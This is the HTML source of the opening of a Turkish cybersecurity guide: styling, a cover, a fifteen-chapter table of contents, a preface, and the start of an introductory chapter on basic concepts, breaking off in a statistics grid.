

<!DOCTYPE html>
<html lang="tr">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <link rel="icon" type="image/jpeg" href="logo.jpg">
  <title>Siber Güvenlik: Kapsamlı Teknik Analiz | Toprak Ahmet Aydoğmuş</title>
  <link
    href="https://fonts.googleapis.com/css2?family=Cinzel:wght@400;600;700;900&family=EB+Garamond:ital,wght@0,400;0,500;0,600;1,400;1,500&family=JetBrains+Mono:wght@300;400;500&display=swap"
    rel="stylesheet">
  <style>
    :root {
      --gold: #C9A84C;
      --gold-light: #F0D080;
      --gold-dim: #8A6F2E;
      --gold-pale: #2A2010;
      --black: #050505;
      --black-soft: #0D0D0D;
      --black-card: #111111;
      --black-border: #1E1E1E;
      --white: #F5F0E8;
      --white-dim: #B0A890;
      --red-alert: #C0392B;
      --code-bg: #0A0A0A;
    }

    * {
      margin: 0;
      padding: 0;
      box-sizing: border-box;
    }

    html {
      scroll-behavior: smooth;
    }

    body {
      background: var(--black);
      color: var(--white);
      font-family: 'EB Garamond', Georgia, serif;
      font-size: 18px;
      line-height: 1.85;
      counter-reset: chapter;
    }

    /* ─── NOISE TEXTURE OVERLAY ─── */
    body::before {
      content: '';
      position: fixed;
      inset: 0;
      background-image: url("data:image/svg+xml,%3Csvg viewBox='0 0 256 256' xmlns='http://www.w3.org/2000/svg'%3E%3Cfilter id='noise'%3E%3CfeTurbulence type='fractalNoise' baseFrequency='0.9' numOctaves='4' stitchTiles='stitch'/%3E%3C/filter%3E%3Crect width='100%25' height='100%25' filter='url(%23noise)' opacity='0.04'/%3E%3C/svg%3E");
      pointer-events: none;
      z-index: 9999;
      opacity: 0.4;
    }

    /* ─── GOLD LINE DECORATOR ─── */
    .gold-rule {
      width: 100%;
      height: 1px;
      background: linear-gradient(90deg, transparent, var(--gold), transparent);
      margin: 2rem 0;
    }

    .gold-rule-thick {
      width: 100%;
      height: 2px;
      background: linear-gradient(90deg, transparent 0%, var(--gold-dim) 20%, var(--gold) 50%, var(--gold-dim) 80%, transparent 100%);
      margin: 3rem 0;
    }

    /* ─── COVER PAGE ─── */
    #cover {
      min-height: 100vh;
      display: flex;
      flex-direction: column;
      align-items: center;
      justify-content: center;
      text-align: center;
      padding: 4rem 2rem;
      position: relative;
      overflow: hidden;
      background: radial-gradient(ellipse at 50% 0%, #1A1400 0%, var(--black) 70%);
    }

    #cover::before {
      content: '';
      position: absolute;
      top: 0;
      left: 50%;
      transform: translateX(-50%);
      width: 80%;
      height: 1px;
      background: linear-gradient(90deg, transparent, var(--gold), transparent);
    }

    #cover::after {
      content: '';
      position: absolute;
      bottom: 0;
      left: 50%;
      transform: translateX(-50%);
      width: 80%;
      height: 1px;
      background: linear-gradient(90deg, transparent, var(--gold), transparent);
    }

    .cover-ornament {
      font-size: 0.75rem;
      letter-spacing: 0.5em;
      color: var(--gold-dim);
      text-transform: uppercase;
      margin-bottom: 3rem;
      font-family: 'Cinzel', serif;
    }

    .cover-title {
      font-family: 'Cinzel', serif;
      font-size: clamp(2.5rem, 6vw, 5rem);
      font-weight: 900;
      color: var(--gold);
      line-height: 1.15;
      text-shadow: 0 0 60px rgba(201, 168, 76, 0.3);
      margin-bottom: 1.5rem;
      letter-spacing: 0.02em;
    }

    .cover-subtitle {
      font-family: 'EB Garamond', serif;
      font-size: clamp(1.1rem, 2.5vw, 1.6rem);
      font-style: italic;
      color: var(--white-dim);
      margin-bottom: 4rem;
      max-width: 700px;
    }

    .cover-diamond {
      width: 12px;
      height: 12px;
      background: var(--gold);
      transform: rotate(45deg);
      margin: 0 auto 3rem;
    }

    .cover-author-block {
      border: 1px solid var(--gold-dim);
      padding: 2rem 3rem;
      margin-top: 2rem;
      position: relative;
    }

    .cover-author-block::before,
    .cover-author-block::after {
      content: '◆';
      position: absolute;
      color: var(--gold);
      font-size: 0.8rem;
    }

    .cover-author-block::before {
      top: -0.5rem;
      left: 50%;
      transform: translateX(-50%);
    }

    .cover-author-block::after {
      bottom: -0.5rem;
      left: 50%;
      transform: translateX(-50%);
    }

    .cover-author-name {
      font-family: 'Cinzel', serif;
      font-size: 1.4rem;
      color: var(--gold);
      font-weight: 700;
      letter-spacing: 0.1em;
    }

    .cover-author-title {
      font-size: 0.9rem;
      color: var(--white-dim);
      margin-top: 0.4rem;
      letter-spacing: 0.05em;
    }

    .cover-contact {
      margin-top: 0.6rem;
      font-size: 0.85rem;
      color: var(--gold-dim);
    }

    .cover-meta {
      display: flex;
      gap: 3rem;
      justify-content: center;
      margin-top: 4rem;
      font-size: 0.8rem;
      color: var(--white-dim);
      letter-spacing: 0.05em;
      text-transform: uppercase;
      font-family: 'Cinzel', serif;
    }

    .cover-hex-bg {
      position: absolute;
      inset: 0;
      overflow: hidden;
      pointer-events: none;
      z-index: -1;
    }

    .hex-pattern {
      position: absolute;
      width: 100%;
      height: 100%;
      opacity: 0.04;
      background-image: url("data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' width='56' height='100'%3E%3Cpath d='M28 66L0 50V16L28 0l28 16v34z' fill='none' stroke='%23C9A84C' stroke-width='1'/%3E%3C/svg%3E");
      background-size: 56px 100px;
    }

    /* ─── TABLE OF CONTENTS ─── */
    #toc {
      max-width: 900px;
      margin: 0 auto;
      padding: 6rem 3rem;
    }

    .toc-title {
      font-family: 'Cinzel', serif;
      font-size: 2rem;
      color: var(--gold);
      margin-bottom: 3rem;
      text-align: center;
      letter-spacing: 0.15em;
      text-transform: uppercase;
    }

    .toc-entry {
      display: flex;
      align-items: baseline;
      padding: 0.45rem 0;
      border-bottom: 1px solid #1A1A1A;
      transition: color 0.2s;
    }

    .toc-entry:hover {
      color: var(--gold);
    }

    .toc-num {
      font-family: 'Cinzel', serif;
      color: var(--gold-dim);
      min-width: 3rem;
      font-size: 0.85rem;
    }

    .toc-dots {
      flex: 1;
      border-bottom: 1px dotted #333;
      margin: 0 1rem;
      position: relative;
      bottom: 0.2rem;
    }

    .toc-text {
      flex: 1;
      font-size: 1rem;
    }

    .toc-section {
      font-size: 0.85rem;
      color: var(--white-dim);
      padding-left: 2rem;
    }

    /* ─── MAIN CONTENT ─── */
    main {
      max-width: 900px;
      margin: 0 auto;
      padding: 2rem 3rem 6rem;
    }

    /* ─── CHAPTER HEADERS ─── */
    .chapter {
      margin-top: 8rem;
      margin-bottom: 4rem;
      page-break-before: always;
    }

    .chapter-num {
      font-family: 'Cinzel', serif;
      font-size: 0.75rem;
      color: var(--gold-dim);
      letter-spacing: 0.4em;
      text-transform: uppercase;
      margin-bottom: 1rem;
      display: block;
    }

    .chapter-num::before {
      counter-increment: chapter;
      content: 'BÖLÜM ' counter(chapter, upper-roman);
    }

    h1.chapter-title {
      font-family: 'Cinzel', serif;
      font-size: clamp(1.8rem, 4vw, 2.8rem);
      color: var(--gold);
      font-weight: 700;
      line-height: 1.2;
      margin-bottom: 1rem;
    }

    .chapter-lead {
      font-size: 1.15rem;
      font-style: italic;
      color: var(--white-dim);
      border-left: 3px solid var(--gold-dim);
      padding-left: 1.5rem;
      margin-bottom: 3rem;
    }

    /* ─── SECTION HEADERS ─── */
    h2 {
      font-family: 'Cinzel', serif;
      font-size: 1.4rem;
      color: var(--gold);
      margin: 3rem 0 1.2rem;
      letter-spacing: 0.05em;
      position: relative;
      padding-bottom: 0.5rem;
    }

    h2::after {
      content: '';
      position: absolute;
      bottom: 0;
      left: 0;
      width: 4rem;
      height: 1px;
      background: var(--gold);
    }

    h3 {
      font-family: 'Cinzel', serif;
      font-size: 1.1rem;
      color: var(--gold-light);
      margin: 2.5rem 0 1rem;
      letter-spacing: 0.03em;
    }

    h4 {
      font-family: 'EB Garamond', serif;
      font-size: 1.05rem;
      color: var(--gold-dim);
      margin: 2rem 0 0.8rem;
      font-style: italic;
      font-weight: 600;
    }

    /* ─── PARAGRAPHS ─── */
    p {
      margin-bottom: 1.4rem;
      color: var(--white);
      text-align: justify;
      hyphens: auto;
    }

    /* ─── CALLOUT BOXES ─── */
    .callout {
      border: 1px solid var(--gold-dim);
      background: linear-gradient(135deg, #1A1400 0%, #0D0D00 100%);
      padding: 1.5rem 2rem;
      margin: 2.5rem 0;
      position: relative;
    }

    .callout::before {
      content: attr(data-label);
      position: absolute;
      top: -0.7rem;
      left: 1.5rem;
      background: var(--black);
      padding: 0 0.5rem;
      font-family: 'Cinzel', serif;
      font-size: 0.7rem;
      color: var(--gold);
      letter-spacing: 0.15em;
      text-transform: uppercase;
    }

    .callout-danger {
      border-color: var(--red-alert);
      background: linear-gradient(135deg, #1A0000 0%, #0D0000 100%);
    }

    .callout-danger::before {
      color: #E74C3C;
    }

    /* ─── CODE BLOCKS ─── */
    pre {
      background: var(--code-bg);
      border: 1px solid #1E1E1E;
      border-left: 3px solid var(--gold-dim);
      padding: 1.5rem;
      overflow-x: auto;
      margin: 2rem 0;
      border-radius: 2px;
    }

    code {
      font-family: 'JetBrains Mono', monospace;
      font-size: 0.82rem;
      color: #A0D8A0;
      line-height: 1.7;
    }

    p code,
    li code {
      background: #111;
      border: 1px solid #222;
      padding: 0.1em 0.4em;
      border-radius: 2px;
      font-size: 0.82em;
      color: var(--gold-light);
    }

    /* ─── LISTS ─── */
    ul,
    ol {
      padding-left: 2rem;
      margin-bottom: 1.4rem;
    }

    li {
      margin-bottom: 0.5rem;
    }

    ul li::marker {
      color: var(--gold);
    }

    ol li::marker {
      color: var(--gold);
      font-family: 'Cinzel', serif;
    }

    /* ─── TABLES ─── */
    table {
      width: 100%;
      border-collapse: collapse;
      margin: 2rem 0;
      font-size: 0.9rem;
    }

    th {
      background: #1A1400;
      color: var(--gold);
      font-family: 'Cinzel', serif;
      font-size: 0.8rem;
      letter-spacing: 0.1em;
      padding: 1rem 1.2rem;
      text-align: left;
      border-bottom: 2px solid var(--gold-dim);
      text-transform: uppercase;
    }

    td {
      padding: 0.8rem 1.2rem;
      border-bottom: 1px solid #1A1A1A;
      color: var(--white);
    }

    tr:hover td {
      background: #111100;
    }

    tr:nth-child(even) td {
      background: #0D0D00;
    }

    /* ─── BLOCKQUOTE ─── */
    blockquote {
      border-left: 4px solid var(--gold);
      padding: 1rem 2rem;
      margin: 2rem 0;
      background: #0D0D00;
      font-style: italic;
      color: var(--white-dim);
      position: relative;
    }

    blockquote::before {
      content: '"';
      font-family: 'Cinzel', serif;
      font-size: 4rem;
      color: var(--gold-dim);
      position: absolute;
      top: -1rem;
      left: 0.5rem;
      line-height: 1;
      opacity: 0.4;
    }

    /* ─── HIGHLIGHT BADGE ─── */
    .badge {
      display: inline-block;
      border: 1px solid var(--gold-dim);
      color: var(--gold);
      font-family: 'Cinzel', serif;
      font-size: 0.65rem;
      letter-spacing: 0.15em;
      padding: 0.15em 0.6em;
      text-transform: uppercase;
      vertical-align: middle;
      margin-right: 0.4rem;
    }

    /* ─── STAT CARDS ─── */
    .stat-grid {
      display: grid;
      grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
      gap: 1.5rem;
      margin: 2.5rem 0;
    }

    .stat-card {
      border: 1px solid var(--gold-dim);
      padding: 1.5rem;
      text-align: center;
      background: linear-gradient(180deg, #1A1400 0%, #0D0B00 100%);
      position: relative;
      overflow: hidden;
    }

    .stat-card::before {
      content: '';
      position: absolute;
      top: 0;
      left: 0;
      width: 100%;
      height: 2px;
      background: linear-gradient(90deg, transparent, var(--gold), transparent);
    }

    .stat-number {
      font-family: 'Cinzel', serif;
      font-size: 2.5rem;
      color: var(--gold);
      font-weight: 900;
      display: block;
      line-height: 1;
    }

    .stat-label {
      font-size: 0.8rem;
      color: var(--white-dim);
      margin-top: 0.5rem;
      letter-spacing: 0.05em;
      text-transform: uppercase;
    }

    /* ─── AUTHOR FOOTER PER CHAPTER ─── */
    .chapter-sig {
      display: flex;
      align-items: center;
      gap: 1rem;
      margin-top: 4rem;
      padding-top: 2rem;
      border-top: 1px solid #1A1A1A;
      font-size: 0.82rem;
      color: var(--white-dim);
    }

    .chapter-sig-name {
      color: var(--gold);
      font-family: 'Cinzel', serif;
      letter-spacing: 0.05em;
    }

    /* ─── FOOTNOTE-STYLE REFERENCES ─── */
    .references {
      margin-top: 3rem;
      font-size: 0.82rem;
      color: var(--white-dim);
    }

    .references h3 {
      font-size: 0.9rem;
      color: var(--gold-dim);
    }

    .ref-item {
      border-left: 1px solid #222;
      padding-left: 1rem;
      margin-bottom: 0.6rem;
    }

    /* ─── NAV SIDEBAR (floating) ─── */
    #floating-nav {
      position: fixed;
      right: 1.5rem;
      top: 50%;
      transform: translateY(-50%);
      display: flex;
      flex-direction: column;
      gap: 0.4rem;
      z-index: 100;
    }

    .nav-dot {
      width: 6px;
      height: 6px;
      background: var(--gold-dim);
      border-radius: 50%;
      cursor: pointer;
      transition: all 0.3s;
    }

    .nav-dot:hover {
      background: var(--gold);
      transform: scale(1.5);
    }

    .nav-dot.active {
      background: var(--gold);
      transform: scale(1.3);
    }

    /* ─── FINAL PAGE ─── */
    #final-page {
      text-align: center;
      padding: 8rem 3rem;
      position: relative;
    }

    .final-title {
      font-family: 'Cinzel', serif;
      font-size: 1.5rem;
      color: var(--gold);
      letter-spacing: 0.2em;
      text-transform: uppercase;
      margin-bottom: 2rem;
    }

    /* ─── PRINT-FRIENDLY ─── */
    @media print {
      body {
        background: white;
        color: black;
      }

      .chapter {
        page-break-before: always;
      }

      #floating-nav {
        display: none;
      }
    }

    @media (max-width: 768px) {
      main {
        padding: 2rem 1.5rem;
      }

      #toc {
        padding: 4rem 1.5rem;
      }

      #floating-nav {
        display: none;
      }

      .cover-author-block {
        padding: 1.5rem;
      }
    }

    /* Animation */
    @keyframes fadeInUp {
      from {
        opacity: 0;
        transform: translateY(30px);
      }

      to {
        opacity: 1;
        transform: translateY(0);
      }
    }

    #cover>* {
      animation: fadeInUp 0.8s ease both;
    }

    #cover .cover-ornament {
      animation-delay: 0.1s;
    }

    #cover .cover-title {
      animation-delay: 0.3s;
    }

    #cover .cover-subtitle {
      animation-delay: 0.5s;
    }

    #cover .cover-author-block {
      animation-delay: 0.7s;
    }

    #cover .cover-meta {
      animation-delay: 0.9s;
    }

    .warning-stripe {
      background: repeating-linear-gradient(45deg,
          #1A0000,
          #1A0000 10px,
          #0D0000 10px,
          #0D0000 20px);
      border: 1px solid var(--red-alert);
      padding: 1.2rem 1.5rem;
      margin: 2rem 0;
      font-size: 0.9rem;
      color: #FF6B6B;
    }

    .key-term {
      color: var(--gold-light);
      font-weight: 600;
    }

    .phase-timeline {
      position: relative;
      padding-left: 2rem;
      margin: 2rem 0;
    }

    .phase-timeline::before {
      content: '';
      position: absolute;
      left: 0;
      top: 0;
      width: 1px;
      height: 100%;
      background: linear-gradient(180deg, var(--gold), transparent);
    }

    .phase-item {
      position: relative;
      padding: 0 0 2rem 2rem;
    }

    .phase-item::before {
      content: '';
      position: absolute;
      left: -0.3rem;
      top: 0.5rem;
      width: 0.6rem;
      height: 0.6rem;
      background: var(--gold);
      border-radius: 50%;
    }

    .phase-label {
      font-family: 'Cinzel', serif;
      font-size: 0.8rem;
      color: var(--gold);
      letter-spacing: 0.1em;
      text-transform: uppercase;
      margin-bottom: 0.3rem;
    }
  </style>
</head>

<body>

  <!-- Floating Nav -->
  <nav id="floating-nav" aria-label="Bölüm navigasyonu">
    <div class="nav-dot active" onclick="document.getElementById('cover').scrollIntoView({behavior:'smooth'})"
      title="Kapak"></div>
    <div class="nav-dot" onclick="document.getElementById('toc').scrollIntoView({behavior:'smooth'})"
      title="İçindekiler"></div>
    <div class="nav-dot" onclick="document.getElementById('ch1').scrollIntoView({behavior:'smooth'})" title="Bölüm 1">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch2').scrollIntoView({behavior:'smooth'})" title="Bölüm 2">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch3').scrollIntoView({behavior:'smooth'})" title="Bölüm 3">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch4').scrollIntoView({behavior:'smooth'})" title="Bölüm 4">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch5').scrollIntoView({behavior:'smooth'})" title="Bölüm 5">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch6').scrollIntoView({behavior:'smooth'})" title="Bölüm 6">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch7').scrollIntoView({behavior:'smooth'})" title="Bölüm 7">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch8').scrollIntoView({behavior:'smooth'})" title="Bölüm 8">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch9').scrollIntoView({behavior:'smooth'})" title="Bölüm 9">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch10').scrollIntoView({behavior:'smooth'})" title="Bölüm 10">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch11').scrollIntoView({behavior:'smooth'})" title="Bölüm 11">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch12').scrollIntoView({behavior:'smooth'})" title="Bölüm 12">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch13').scrollIntoView({behavior:'smooth'})" title="Bölüm 13">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch14').scrollIntoView({behavior:'smooth'})" title="Bölüm 14">
    </div>
    <div class="nav-dot" onclick="document.getElementById('ch15').scrollIntoView({behavior:'smooth'})" title="Bölüm 15">
    </div>
    <div class="nav-dot" onclick="document.getElementById('final-page').scrollIntoView({behavior:'smooth'})"
      title="Kapanış"></div>
  </nav>

  <!-- ══════════════════════════════════════════════════════
     KAPAK SAYFASI
══════════════════════════════════════════════════════ -->
  <section id="cover">
    <div class="cover-hex-bg">
      <div class="hex-pattern"></div>
    </div>

    <p class="cover-ornament">Siber Akademi Yayınları &nbsp;◆&nbsp; Teknik Araştırma Serisi</p>

    <div class="cover-logo-container" style="margin: 2rem auto; text-align: center; position: relative; z-index: 2;">
      <div style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%); width: 250px; height: 250px; background: radial-gradient(circle, rgba(201, 168, 76, 0.15) 0%, transparent 70%); z-index: -1;"></div>
      
    </div>

    <h1 class="cover-title">Siber Güvenlik:<br>Tehdit, Savunma ve<br>Stratejik Analiz</h1>

    <p class="cover-subtitle">
      Modern dijital altyapının korunmasına ilişkin kapsamlı teknik rehber;<br>
      saldırı metodolojilerinden kurumsal güvenlik mimarisine uzanan bütünsel bir çerçeve
    </p>

    <div class="cover-diamond"></div>

    <div class="cover-author-block">
      <div class="cover-author-name">Toprak Ahmet Aydoğmuş</div>
      <div class="cover-author-title">
        Cybersecurity Specialist &nbsp;|&nbsp; Ethical Hacker &nbsp;|&nbsp; Penetration Tester<br>
        OSINT &nbsp;|&nbsp; Digital Forensics &nbsp;|&nbsp; CTF &nbsp;|&nbsp; CVE Research<br>
        Founder &amp; CEO — Siber Akademi &nbsp;|&nbsp; İzmir, Türkiye
      </div>
      <div class="cover-contact">📧 &nbsp;<a href="mailto:toprakahmetaydogmus0@gmail.com"
          style="color:var(--gold-dim);">toprakahmetaydogmus0@gmail.com</a></div>
      <div class="cover-contact" style="margin-top:0.2rem;">🌐 &nbsp;https://linkedin.com/in/toprak-ahmet-aydoğmuş-60462534b
      </div>
    </div>

    <div class="cover-meta">
      <span>2026 Baskısı</span>
      <span>◆</span>
      <span>İzmir, Türkiye</span>
      <span>◆</span>
      <span>Siber Akademi</span>
      <span>◆</span>
      <span>Tüm Hakları Saklıdır</span>
    </div>
</section>

  <!-- ══════════════════════════════════════════════════════
     İÇİNDEKİLER
══════════════════════════════════════════════════════ -->
  <section id="toc" style="border-top: 1px solid #1A1A1A;">
    <div class="gold-rule-thick"></div>
    <h2 class="toc-title">İçindekiler</h2>

    <div class="toc-entry"><span class="toc-num">I</span><span class="toc-text">Siber Güvenliğe Giriş: Temel Kavramlar
        ve Terminoloji</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">CIA Üçgeni; Saldırı Yüzeyi;
        Tehdit Aktörleri</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">II</span><span class="toc-text">Ağ Güvenliği: Protokollerden Savunma
        Mimarisine</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">OSI Modeli; Firewall;
        IDS/IPS; VPN; Ağ Segmentasyonu</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">III</span><span class="toc-text">Sızma Testi (Penetration Testing)
        Metodolojisi</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">PTES; OSSTMM; OWASP; Keşif;
        Sömürü; Raporlama</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">IV</span><span class="toc-text">Web Uygulama Güvenliği</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">OWASP Top 10; SQL Injection;
        XSS; CSRF; SSRF; XXE</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">V</span><span class="toc-text">OSINT: Açık Kaynak İstihbarat
        Teknikleri</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Maltego; Shodan; WHOIS;
        Google Dorks; Metadata Analizi</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">VI</span><span class="toc-text">Kriptografi ve Şifreleme
        Sistemleri</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Simetrik/Asimetrik
        Şifreleme; PKI; TLS/SSL; Kuantum Kriptografi</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">VII</span><span class="toc-text">Zararlı Yazılım (Malware)
        Analizi</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Statik/Dinamik Analiz;
        Tersine Mühendislik; Sandbox; RAT; Ransomware</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">VIII</span><span class="toc-text">Dijital Adli Bilişim (Digital
        Forensics)</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Delil Zinciri; Disk/Bellek
        Analizi; Log Forensics; Araçlar</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">IX</span><span class="toc-text">Tehdit İstihbaratı (Threat
        Intelligence)</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">MITRE ATT&amp;CK;
        STIX/TAXII; IoC; APT Grupları; TTP Analizi</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">X</span><span class="toc-text">Red Team / Blue Team / Purple
        Team</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Adversary Simulation; SOC;
        SIEM; Playbook; Tabletop Exercise</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">XI</span><span class="toc-text">Bulut Güvenliği (Cloud Security)</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">AWS/Azure/GCP; Shared
        Responsibility; IAM; CSPM; Container Security</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">XII</span><span class="toc-text">Zero Trust Mimari ve Kimlik
        Güvenliği</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">BeyondCorp; MFA; PAM; SASE;
        Mikrosegmentasyon</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">XIII</span><span class="toc-text">Sosyal Mühendislik ve İnsan
        Faktörü</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Phishing; Vishing;
        Pretexting; Farkındalık Eğitimi</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">XIV</span><span class="toc-text">Yapay Zekâ ve Siber Güvenlik</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">AI-Destekli Saldırılar; ML
        Tabanlı Savunma; LLM Güvenliği</span>
      <div class="toc-dots"></div>
    </div>

    <div class="toc-entry"><span class="toc-num">XV</span><span class="toc-text">Python ile Siber Güvenlik Araç
        Geliştirme</span>
      <div class="toc-dots"></div>
    </div>
    <div class="toc-entry toc-section"><span class="toc-num">–</span><span class="toc-text">Ağ Tarama; Exploit Yazımı;
        Otomasyon; OSINT Scriptleri</span>
      <div class="toc-dots"></div>
    </div>

    <div class="gold-rule"></div>
  </section>

  <!-- ══════════════════════════════════════════════════════
     ÖNSÖZ / GİRİŞ
══════════════════════════════════════════════════════ -->
  <main>
    <section style="margin-top:4rem; padding-bottom:4rem; border-bottom: 1px solid #1A1A1A;">
      <div class="gold-rule-thick"></div>
      <h2
        style="font-family:'Cinzel',serif; font-size:1.8rem; color:var(--gold); text-align:center; margin-bottom:2rem;">
        Önsöz</h2>

      <p>Bu çalışma; siber güvenlik alanında sahada edinilmiş deneyimlerin, teknik araştırmaların ve sürekli öğrenme
        yolculuğunun bir yansımasıdır. Siber Akademi çatısı altında gerçekleştirilen eğitimler, danışmanlıklar ve açık
        kaynak katkılarından süzülen bu bilgiler; hem yeni başlayanlar hem de alanını derinleştirmek isteyen
        profesyoneller için bir başvuru kaynağı olarak tasarlanmıştır.</p>

      <p>Türkiye'deki siber güvenlik ekosistemi hızla büyümektedir; ancak Türkçe teknik kaynak eksikliği hâlâ ciddi bir
        engel oluşturmaktadır. Bu makale, söz konusu boşluğu doldurmaya yönelik somut bir adım olarak kaleme alınmıştır.
        Her bölüm; teorik temeli, pratik uygulamayı ve gerçek dünya senaryolarını bir arada barındıracak biçimde
        kurgulanmıştır.</p>

      <blockquote>
        "Bir sistemi savunmak için, onu saldırganın gözüyle görmeyi öğrenmek şarttır. Güvenlik, bir ürün değil;
        süregelen bir süreçtir."
        <br><br>— Toprak Ahmet Aydoğmuş, Siber Akademi
      </blockquote>

      <p>Siber tehditler her geçen yıl daha sofistike bir hal almaktadır. Devlet destekli tehdit aktörlerinden fidye
        yazılımı çetelerine, hacktivist gruplardan yalnız kurtlara kadar uzanan geniş bir yelpazedeki saldırganlar; her
        ölçekteki organizasyonu ve bireyi hedef almaktadır. Bu gerçeklik karşısında reaktif bir güvenlik anlayışı artık
        yeterli değildir: proaktif, istihbarat odaklı ve katmanlı bir savunma yaklaşımı zorunlu hale gelmiştir.</p>

      <p>İyi okumalar ve güvenli sanal ortamlar dilerim.</p>

      <div style="text-align:right; margin-top:2rem; color:var(--gold); font-family:'Cinzel',serif; font-size:0.9rem;">
        Toprak Ahmet Aydoğmuş<br>
        <span style="color:var(--white-dim); font-size:0.8rem; font-family:'EB Garamond',serif;">İzmir, 2026</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 1: SİBER GÜVENLİĞE GİRİŞ
══════════════════════════════════════════════════════ -->
    <section id="ch1" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Siber Güvenliğe Giriş:<br>Temel Kavramlar ve Terminoloji</h1>
      <p class="chapter-lead">
        Siber güvenlik; bilgi sistemlerini, ağları, programları ve verileri dijital saldırılara, yetkisiz erişimlere ve
        hasara karşı koruma bilimidir. Bu bölümde alanın temel kavramlarını ve terminolojisini ele alıyoruz.
      </p>

      <div class="gold-rule"></div>

      <h2>1.1 Siber Güvenlik Nedir?</h2>
      <p>Siber güvenlik; donanım, yazılım ve insan unsurlarını kapsayan entegre bir disiplin olarak tanımlanabilir. Salt
        teknik bir alan olmanın ötesinde; organizasyonel süreçleri, politikaları ve insan davranışını da bünyesinde
        barındıran çok katmanlı bir yapıdır. Nitekim istatistikler, veri ihlallerinin yaklaşık %82'sinin insan faktörünü
        içerdiğini ortaya koymaktadır.</p>

      <p>Dijitalleşmenin ivme kazandığı günümüzde siber güvenlik; artık yalnızca büyük kurumların ya da devlet
        kuruluşlarının gündeminde yer alan bir kavram değildir. Küçük ölçekli işletmeler, bireysel kullanıcılar ve hatta
        kritik altyapı sistemleri de eşit derecede ciddi tehditlerle karşı karşıyadır. IoT (Nesnelerin İnterneti)
        cihazlarının yaygınlaşması, bulut bilişimin benimsenmesi ve uzaktan çalışma modellerinin kalıcılaşması; saldırı
        yüzeyini tarihte hiç olmadığı kadar genişletmiştir.</p>

      <div class="stat-grid">
        <div class="stat-card">
          <span class="stat-number">8.4T$</span>
          <div class="stat-label">2022 Küresel Siber Suç Maliyeti (USD)</div>
        </div>
        <div class="stat-card">
          <span class="stat-number">%82</span>
